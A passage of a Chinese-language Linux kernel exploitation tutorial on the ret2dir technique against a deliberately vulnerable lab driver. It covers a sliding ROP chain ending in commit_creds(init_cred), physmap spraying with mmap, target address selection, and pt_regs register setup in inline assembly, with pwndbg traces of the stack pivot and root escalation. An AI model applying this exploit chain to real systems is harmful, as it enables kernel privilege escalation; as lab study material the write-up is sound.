    - **原理**：`RET`指令仅做一件事：从栈顶弹出下一个地址并跳转过去。当执行流通过第一阶段的`ADD_RSP`“跳”到本阶段时，RSP可能并未精确对准我们最终ROP链的起点。用一系列连续的`RET`指令填充一段空间，可以让执行流像“走小步”一样，一个接一个地“走过”这些`RET`，直到“走”完这段缓冲区，必然会抵达其末端，也就是我们精心放置的`POP_RDI_RET` Gadget。

- **第三阶段 (真实ROP链)**：
    - **目的**：执行**核心操作**。
    - **原理**：当执行流“滑”到这里时，栈布局是确定的。此时的ROP链执行标准的内核提权操作：
        1.  `POP RDI; RET`：将`INIT_CRED`（一个指向空凭据结构的指针）的地址加载到RDI寄存器，作为`commit_creds`的参数。
        2.  调用`COMMIT_CREDS`：该函数将当前进程的凭据设置为root权限。
        3.  调用`SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE + 0x22`：这是一个特定的内核例程偏移，用于从内核态安全地切换回用户态，并恢复之前保存的用户态寄存器上下文（CS, RFLAGS, SP, SS等），最终将控制权交还给用户空间的`get_root_shell`函数。

#### 4-2-3. 总结

这种“滑动ROP链”的设计，通过`ADD_RSP_...RET`（大跳跃并清理栈）、`RET`（小步走）和最终有效载荷的三段式结构，巧妙地将堆喷射带来的**地址随机性**转化为**可控的滑行过程**。参数`0x30`和`0x10`定义了各阶段的边界，其选择是基于经验、对齐要求和实际Payload大小进行的权衡。**特别需要注意的是**，`ADD_RSP_0XF0_POP_RBX_RET` 这个Gadget通过组合指令，在实现栈指针大幅迁移（`ADD RSP`）的同时，还完成了对栈的清理和调整（`POP RBX`），为后续稳定执行奠定了基础，是此类利用中一个经典且高效的滑动组件。

### 4-3. 内存喷射与执行流劫持

在完成SPRAY_SIZE的计算与ROP链的构造后，下一步是实施**内存喷射**，其核心目标是将构造好的ROP载荷大量、密集地植入物理内存，并最终引导内核执行流跳转到这些载荷在physmap区域的对应地址。

#### 4-3-1. 实施内存喷射

内存喷射通过用户空间程序主动、大量地分配和初始化内存来实现。

- **分配机制**：使用 `mmap` 系统调用申请大量虚拟内存区域。`mmap` 允许精细控制映射特性，例如使用 `MAP_ANONYMOUS` 标志创建不与文件关联的匿名映射，并使用 `MAP_PRIVATE` 标志（或通过写访问触发缺页）来确保内核的**内存管理子系统（mm）** 立即分配物理页框并将其映射到进程的地址空间。
- **填充载荷**：在每一次成功的 `mmap` 调用后，立即将预先构造好的、包含“滑动ROP链”的缓冲区复制到新获得的内存页中。这使得每一个新分配的物理页框的内容，都与期望在内核中执行的ROP序列完全相同。
- **喷射尺寸**：理论上，喷射的页面越多，命中目标地址的概率（`P = N / (PFN_MAX - PFN_MIN)`）就越高。此处，**SPRAY_SIZE 被设定为之前计算得出的可用PFN范围的高端起始值 `0x2c00`**。这意味着喷射程序将试图分配并填充大约 `0x2c00`（十进制11264）个物理页框，这与系统可用“高端RAM”的起始点对齐，旨在密集覆盖从该点开始的主要可用内存区域。

#### 4-3-2. 选择target_addr

内存喷射完成后，需要选择一个具体的physmap地址作为劫持内核控制流的目标。其计算公式为：

$$
\text{target_addr} = \text{PHYS_OFFSET} + (\text{target_pfn} \times \text{PAGE_SIZE})
$$

其中，`target_pfn` 是一个在可用PFN范围内（`0x2c00` 至 `0xffdf`）的猜测值。然而，直接随机选择或使用 `SPRAY_SIZE` 作为 `target_pfn` 并非最优。

- **经验性优化**：在实践中发现，使用 `target_pfn = SPRAY_SIZE * 2`（即 `0x5800`）来计算目标地址，其成功命中的概率显著高于使用 `SPRAY_SIZE` 本身。
- **原理分析**：这种优化可能源于以下几个因素：
    1.  **分配器行为**：`buddy allocator` 在满足大量连续分配请求时，可能从某个空闲区域的中部或偏后位置开始分配物理页框，而非严格从理论上的起始PFN（`0x2c00`）开始。
    2.  **内存压力与碎片**：喷射过程本身以及其他系统进程的活动会造成内存压力，可能影响物理页框分配的顺序和连续性，使得实际被大量占用的PFN范围向更高地址偏移。
    3.  **对齐与效率**：`SPRAY_SIZE * 2` 这个值代表了一个更深地“切入”被喷射内存区域的猜想，它可能更接近在实际喷射完成后，被占用的物理页框群的“质量中心”，从而提高了随机命中其中一页的概率。

因此，最终的目标地址计算为：
`target_addr = 0xffff888000000000 + (0x2c00 * 2) * 0x1000`

#### 4-3-3. 利用pt_regs劫持控制流

在Linux内核中，当通过系统调用进入内核时，用户态的寄存器内容会被保存到内核栈上的一个名为 `pt_regs` 的结构体中。如果存在一个内核漏洞允许覆盖函数指针或返回地址，并能够控制其指向一个包含`SYSCALL`指令的代码片段，那么通过精心构造`pt_regs`，就可以在“返回”时实现任意内核代码执行。

exploit.c内的汇编代码正是这一技术的体现。它并非直接调用系统调用，而是**预先设置好寄存器状态，模拟一个即将通过`syscall`指令进入内核的现场**：

```c
__asm__(
    "mov r15,   0xbeefdead;"
    "mov r14,   0x11111111;"
    ... // 设置r13, r12, rbp, rbx等寄存器
    "mov r9,    pop_rsp_ret;" // 关键：R9设置为栈迁移gadget地址
    "mov r8,    try_hit;"     // 关键：R8设置为target_addr（即我们希望跳转的physmap地址）
    "mov rax,   0x10;"        // 系统调用号（示例，如ioctl）
    "mov rcx,   0xaaaaaaaa;"  // 保存的RIP（用户态返回地址占位符）
    "mov rdx,   try_hit;"     // 第三个参数（可能用于传递目标地址）
    "mov rsi,   114514;"      // 第二个参数
    "mov rdi,   dev_fd;"      // 第一个参数（文件描述符）
    "syscall"                 // 触发系统调用，寄存器状态被保存到pt_regs
);
```

- **工作原理**：
    1.  这段汇编执行一个合法的系统调用（如`ioctl`），目的是让内核将当前所有通用寄存器的值保存到当前进程内核栈的`pt_regs`结构中。
    2.  **关键步骤**是设置了`R9`和`R8`寄存器。`R9`被设置为一个`pop rsp; ret`（或类似）的gadget地址，这个gadget用于后续的栈迁移。`R8`被设置为猜测的`target_addr`。
    3.  当内核模块中的漏洞被触发，并成功将RIP指向一个`pop rsp; ret`之类的gadget时，内核会“返回”到我们预设的路径。
    4.  Gadget `pop rsp`会从栈上弹出一个值作为新的RSP。如果能控制栈上的内容，就可以让RSP指向一个受控区域。在此利用链中，通过之前的堆喷射，`target_addr`对应的physmap页面充满了ROP链。通过精心的布局，可以使得`pop rsp`将RSP迁移到`target_addr`（或附近）的地址，随后`ret`指令将控制流引入我们铺设的“滑动ROP链”中，从而执行提权操作。

#### 4-3-4. 总结

内存喷射与`pt_regs`技术结合，构成了一套完整的执行流劫持方案。喷射确保目标物理内存中充满有效载荷；对`target_addr`的经验性优化提高了命中载荷的概率；而`pt_regs`的构造则为内核执行流从漏洞点“滑行”至喷射的物理内存页面提供了初始的推动力和迁移路径。

### 4-4. 内核调试与执行流追踪

在完成内存喷射和`pt_regs`布局后，下一步是通过内核调试器（如`gdb`配合`pwndbg`插件）深入内核，动态追踪和验证执行流劫持的全过程。这有助于直观理解漏洞触发后，控制流如何从被破坏的内核状态，精确地“滑行”至喷射在`physmap`中的利用载荷。

#### 4-4-1. 漏洞触发点的现场分析

在驱动模块的漏洞函数 `kgadget_ioctl+437` 处设置断点，当用户空间触发漏洞调用后，执行流在此暂停。通过检查内核栈上保存的`pt_regs`结构，可以清晰地看到之前通过汇编代码预设的寄存器状态。

```bash
pwndbg> p/x *regs
$1 = {
  r15 = 0x4847464544434241,
  r14 = 0x4847464544434241,
  r13 = 0x4847464544434241,
  r12 = 0x4847464544434241,
  bp = 0x4847464544434241,
  bx = 0x4847464544434241,
  r11 = 0x4847464544434241,
  r10 = 0x4847464544434241,
  r9 = 0xffffffff810004f0,   // 关键：预设的 `pop_rsp_ret` gadget地址
  r8 = 0xffff888005800000,   // 关键：预设的 `target_addr` (physmap地址)
  ax = 0x4847464544434241,
  cx = 0x4847464544434241,
  dx = 0x4847464544434241,
  si = 0x4847464544434241,
  di = 0x4847464544434241,
  orig_ax = 0x10,
  ip = 0x4847464544434241,
  cs = 0x33,
  flags = 0x246,
  sp = 0x4847464544434241,
  ss = 0x2b
}
```

**现场分析**：

- **寄存器状态**：除了`R9`和`R8`，其余大部分通用寄存器（`R15`-`R10`, `RAX`-`RDI`，甚至`RIP`、`RSP`）的值均被覆盖为模式化的数据`0x4847464544434241`（对应字符串`ABCDEFGH`）。这表明漏洞成功导致了内核栈上`pt_regs`结构的广泛破坏。
- **关键寄存器保留**：`R9`和`R8`的值被完整保留。`R9`指向一个`pop rsp; ret` gadget（地址`0xffffffff810004f0`），这是后续进行栈迁移的关键。`R8`则保存了通过堆喷射和优化计算得出的目标地址`target_addr`（`0xffff888005800000`），该地址位于`physmap`区域，指向一个被利用载荷填充的物理页框。

#### 4-4-2. 控制流劫持与滑板执行

单步执行到被劫持的函数指针`func()`处，观察控制流的跳转。

```bash
In file: /home/bogon/workSpaces/pwn4kernel/src/ret2dir/drivers/binary.c:95
    89         regs->r15 = dumpy;        // R15
    90         regs->sp = dumpy;        // RSP
    91         regs->ip = dumpy;        // RIP
    92 
    93         pr_info("[kgadget:] Executing kgadget now.\n");
    94         func = (kgadget_func_t) kernel_func_ptr;
 ►  95         func();
```

此时，`func()`指针实际上指向`R8`中的地址，即`target_addr` (`0xffff888005800000`)。该地址处存放的正是喷射的ROP链的起始部分——`ADD_RSP_0XF0_POP_RBX_RET`滑板指令。

- **执行`ADD_RSP_0XF0_POP_RBX_RET`**：该指令组合首先将栈指针`RSP`大幅增加`0xF0`字节，然后弹出一个值到`RBX`（消耗栈上的一个QWORD），最后执行`RET`。其效果是让`RSP`跳过当前栈上的一大段无关或已被破坏的数据，快速向栈的更高地址（更深处）移动。

#### 4-4-3. 栈迁移与滑行至目标链

执行完`ADD_RSP_0XF0_POP_RBX_RET`后，`RET`指令从新的栈顶弹出下一条指令地址并跳转。

```bash
pwndbg> telescope $rsp 50
00:0000│ rsp 0xffffc9000027fea8 —▸ 0xffff888005800000 —▸ 0xffffffff81577275 (loop_get_status_compat+87) ◂— add rsp, init_module+204
01:0008│     0xffffc9000027feb0 ◂— 0x1bf52825a58e0
02:0010│     0xffffc9000027feb8 —▸ 0xffff888003b94900 ◂— 0
03:0018│     0xffffc9000027fec0 —▸ 0xffffffff81577275 (loop_get_status_compat+87) ◂— add rsp, init_module+204
04:0020│     0xffffc9000027fec8 ◂— 0xffffc90000280000
05:0028│     0xffffc9000027fed0 —▸ 0xffffc9000027ff58 ◂— 0x4847464544434241 ('ABCDEFGH')
06:0030│     0xffffc9000027fed8 ◂— 0x4847464544434241 ('ABCDEFGH')
07:0038│     0xffffc9000027fee0 —▸ 0xffffffff81577275 (loop_get_status_compat+87) ◂— add rsp, init_module+204
08:0040│ r10 0xffffc9000027fee8 ◂— 0
09:0048│     0xffffc9000027fef0 —▸ 0xffff8880040c6800 ◂— 0
0a:0050│     0xffffc9000027fef8 —▸ 0xffff8880040c6800 ◂— 0
0b:0058│     0xffffc9000027ff00 —▸ 0xffffffff81195d88 (vfs_ioctl+25) ◂— cmp eax, 0xfffffdfd
0c:0060│     0xffffc9000027ff08 —▸ 0xffffffff81196b0c (__do_sys_ioctl+98) ◂— and bpl, 1
0d:0068│     0xffffc9000027ff10 ◂— 0x46 /* 'F' */
0e:0070│     0xffffc9000027ff18 —▸ 0xffffc9000027ff58 ◂— 0x4847464544434241 ('ABCDEFGH')
0f:0078│     0xffffc9000027ff20 ◂— 0
... ↓        3 skipped
13:0098│     0xffffc9000027ff40 —▸ 0xffffffff8194fa21 (do_syscall_64+52) ◂— mov qword ptr [rbx + 0x50], rax
14:00a0│     0xffffc9000027ff48 ◂— 0
15:00a8│     0xffffc9000027ff50 —▸ 0xffffffff81a0007c (entry_SYSCALL_64+124) ◂— mov rcx, qword ptr [rsp + 0x58]
16:00b0│     0xffffc9000027ff58 ◂— 0x4847464544434241 ('ABCDEFGH')
... ↓        7 skipped
1e:00f0│     0xffffc9000027ff98 —▸ 0xffffffff810004f0 (__startup_64+708) ◂— pop rsp
1f:00f8│     0xffffc9000027ffa0 —▸ 0xffff888005800000 —▸ 0xffffffff81577275 (loop_get_status_compat+87) ◂— add rsp, init_module+204
20:0100│     0xffffc9000027ffa8 ◂— 0x4847464544434241 ('ABCDEFGH')
... ↓        4 skipped
25:0128│     0xffffc9000027ffd0 ◂— 0x10
26:0130│     0xffffc9000027ffd8 ◂— 'ABCDEFGH3'
27:0138│     0xffffc9000027ffe0 ◂— 0x33 /* '3' */
28:0140│     0xffffc9000027ffe8 ◂— 0x246
29:0148│     0xffffc9000027fff0 ◂— 'ABCDEFGH+'
2a:0150│     0xffffc9000027fff8 ◂— 0x2b /* '+' */
<Could not read memory at 0xffffc90000280000>
pwndbg> 
```

**关键跳转**：

1.  **跳转地址**：`RET`后，控制流跳转至地址`0xffffc9000027ff98`。这正是之前`telescope`命令输出中偏移`0x1e`的位置。
2.  **栈迁移Gadget**：该地址处存放的值是`0xffffffff810004f0`，即`pop rsp; ret` gadget的地址。**这正是之前保存在`R9`寄存器中的值**。此时，`RSP`指向的位置（`0xffffc9000027ffa0`）存放的值是`0xffff888005800000`，即`target_addr`。
3.  **执行栈迁移**：`pop rsp`指令执行，将`0xffff888005800000` (`target_addr`) 弹出到`RSP`寄存器中。至此，栈指针从原有的内核栈（`0xffffc9000027ffa0`附近）**迁移**到了`physmap`区域中我们喷射的页面起始地址`target_addr`。
4.  **进入滑行区**：紧接着`pop rsp`之后的`ret`指令，会从新的`RSP`（即`target_addr`）所指向的位置取出下一条指令地址。由于`target_addr`页面已被我们构造的ROP链完全填充，其起始部分正是大量的`ADD_RSP_0XF0_POP_RBX_RET`滑板。控制流由此正式进入我们铺设的“滑行轨道”。

#### 4-4-4. 成功滑行至目标ROP链

一旦控制流进入`target_addr`页面，便会按照预先布局的“滑梯”结构执行：

1.  首先执行一系列`ADD_RSP_0XF0_POP_RBX_RET`，进行粗粒度滑动，快速跳过页面的大部分区域。
2.  随后进入由纯`RET`指令构成的细粒度滑动区，一步步“走”向页面末端。
3.  最终，执行流必然抵达页面末端预留的、真正的提权ROP链起点（`POP_RDI_RET`），并依次执行`commit_creds`、`swapgs_restore_regs...`等指令，完成权限提升并安全返回用户态。

进入`POP_RDI_RET`时，堆栈布局如下：

```bash
pwndbg> telescope $rsp
00:0000│ rsp 0xffff888005800f88 —▸ 0xffffffff8244c980 (init_cred) ◂— 4
01:0008│     0xffff888005800f90 —▸ 0xffffffff8107093b (commit_creds) ◂— push r12
02:0010│     0xffff888005800f98 —▸ 0xffffffff81a00e12 (common_interrupt_return+34) ◂— mov rdi, rsp
03:0018│     0xffff888005800fa0 ◂— 0x72656361526e6942 ('BinRacer')
04:0020│     0xffff888005800fa8 ◂— 0x72656361526e6942 ('BinRacer')
05:0028│     0xffff888005800fb0 ◂— 0x401f4c
06:0030│     0xffff888005800fb8 ◂— 0x33 /* '3' */
07:0038│     0xffff888005800fc0 ◂— 0x206
pwndbg> 
```

#### 4-4-5. 总结

内核调试的现场输出清晰地印证了整个利用链的有效性。它展示了从`pt_regs`被破坏、保留关键寄存器，到通过滑板指令调整执行流、利用`pop rsp`进行栈迁移，最终成功将内核控制流引导至`physmap`中可控的ROP链的完整过程。这一过程环环相扣，充分利用了系统内存布局特性和指令片段，是`ret2dir`技术在实际环境中的一次典型呈现。

## 5. 测试结果

<div style="text-align: center; margin: 2rem 0;">
  
</div>


## 参考

https://github.com/BinRacer/pwn4kernel/tree/master/src/ret2dir
https://www.cs.columbia.edu/~vpk/papers/ret2dir.sec14.pdf
https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#0x03-Kernel-ROP-ret2dir
